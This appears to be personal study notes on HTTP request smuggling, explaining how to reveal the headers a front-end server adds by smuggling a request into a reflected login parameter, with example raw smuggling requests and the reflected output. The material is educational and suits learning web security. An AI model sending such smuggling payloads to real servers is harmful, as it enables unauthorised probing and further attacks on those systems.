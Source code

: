 ## Revealing Front-end Request Rewriting
 - in many application `front-end` performs some `rewriting` of the request before they are forwarded to the `back-end` server.
 - typically by adding some additional headers
 `example:`
	 - terminates the `TLS` connection and add some headers describing the protocol and ciphers that were used
 	- add `X-Forwarded-For:`header containing the user's IP address
 	- Determine the user's ID on their Session token and add a header identifying User 
	- add some `sensitive information` that is of interest for other attacks
 - in some case, if our smuggled requests are missing some headers that are normally added by the `front-end server` , then the `back-end` might didn't process the requests in the normal way, resulting Smuggled requests failing to have the intended effects.
 - there is often a way to revel exactly how the front-end server is rewriting requests
	 - Find the `post` request that reflects the value of a request parameter into the application's response
	 - shuffle the parameters so that the reflected parameter appears last in the message body
	 - Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form we want to revel.
`example:`
- suppose an application has a login function that reflects the value of the `email` parameter
```js
POST /login HTTP/1.1
Host: vuln-web.com
Content-Type: appplication/x-www-form-urlencoded
Content-Length: 28

email=dk@hello.user.net
```
this results in the response containing following
` <input id="email" value="dk@hello.user.net" type="text">`

- here we can use the following request smuggling to revel rewriting that is performed by the `front-end`
```js
POST / HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Legth: 123
Transfer-Encoding: chunked


0

POST /login HTTP/1.1
Host: vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100


email= we send seconde request that is reflected here
```
the request will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the `email` parameter, it will then reflect this value back in response to the second request.
```js
< input id="email" value="POST /login HTTP/1.1  
Host: vulnerable-website.com  
X-Forwarded-For: 1.3.3.7  
X-Forwarded-Proto: https  
X-TLS-Bits: 128  
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256  
X-TLS-Version: TLSv1.2  
```